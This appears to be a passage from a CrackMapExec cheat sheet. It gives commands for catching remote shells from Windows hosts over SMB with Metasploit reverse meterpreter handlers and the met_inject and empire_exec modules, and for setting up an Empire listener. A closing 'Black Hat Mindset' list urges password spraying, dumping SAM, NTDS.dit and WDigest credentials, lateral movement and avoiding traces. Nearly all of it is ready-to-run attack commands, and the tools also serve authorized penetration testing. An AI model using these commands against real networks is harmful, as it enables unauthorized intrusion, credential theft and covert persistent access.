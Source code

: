 ## Getting Shells

### Metasploit

#### Set Up Reverse Handler
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST 192.168.10.3
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

#### Met_Inject Module
```bash
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=YOURIP LPORT=4444
```

### Empire

#### Start RESTful API
```bash
empire --rest --user empireadmin --pass gH25Iv1K68@^
```

#### Set Up HTTP Listener
```bash
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list
```

#### Empire Module
```bash
crackmapexec smb 192.168.215.104 -u Administrator -p PASSWORD --local-auth -M empire_exec -o LISTENER=CMETest
```

**Note**: Configure Empire API credentials in `~/.cme/cme.conf`.

## Black Hat Mindset

- **Enumerate Aggressively**: Use `--users`, `--shares`, and `--sessions` to map the network.
- **Spray Credentials**: Target large subnets with password spraying to find valid accounts.
- **Dump Credentials**: Extract SAM, NTDS.dit, and WDigest creds for lateral movement.
- **Execute Commands**: Leverage smbexec or wmiexec to run commands discreetly.
- **Gain Shells**: Use met_inject or empire_exec to establish persistent access.
- **Stay Silent**: Use CME's database to track progress without leaving traces.

## Resources

- [CrackMapExec GitHub](https://github.com/byt3bl33d3r/CrackMapExec)
- [CME Documentation](https://www.crackmapexec.wiki)
- [Metasploit Documentation](https://docs.metasploit.com)
- [Empire GitHub](https://github.com/BC-SECURITY/Empire)

